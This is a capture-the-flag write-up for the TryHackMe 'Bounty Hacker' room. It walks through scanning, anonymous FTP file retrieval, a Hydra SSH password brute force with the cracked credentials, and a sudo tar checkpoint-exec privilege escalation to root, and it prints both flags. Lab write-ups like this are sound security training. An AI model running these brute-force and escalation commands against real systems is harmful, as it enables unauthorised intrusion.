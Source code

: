 # Bounty Hacker

```bash
export IP=10.10.0.34
```

## Scans

### Nmap

Initial nmap scan:
```bash
nmap -sC -sV -oN scans/nmap.initial $IP
```

Open Ports Found:
```
21 -- ftp
22 -- ssh
80 -- webpage
```

### DirBuster

Directories found:
```
/images
/icons -- 404 Not Found
/icons/small -- 403 Forbidden
```

found `crew.jpg` in `/images`

![crew.jpg](imgs/crew.jpg)


## FTP

Connecting to FTP and `GET`ting files
```
ftp> open
(to) 10.10.0.34
ftp> user
(username) ftp
ftp> get
(remote-file) task.txt
(local-file) task.txt
ftp> get
(remote-file) locks.txt
(local-file) locks.txt
```

found username `lin` in `task.txt` and wordlist `locks.txt`


## Hydra 

Bruteforcing username `lin` with `locks.txt` passwordlist for SSH credentials
```
hydra -l lin -P locks.txt $IP -t 4 ssh
```

found credentials `lin:RedDr4gonSynd1cat3`


## SSH into Machine

```
ssh lin@10.10.0.34
```

**User Flag Found**: `THM{CR1M3_SyNd1C4T3}`

Privesc by:
```bash
sudo -l
```

and searching for `tar` on [gtfoBins](https://gtfobins.github.io/gtfobins/tar/)

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

**Root Flag Found**: `THM{80UN7Y_h4cK3r}`

---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
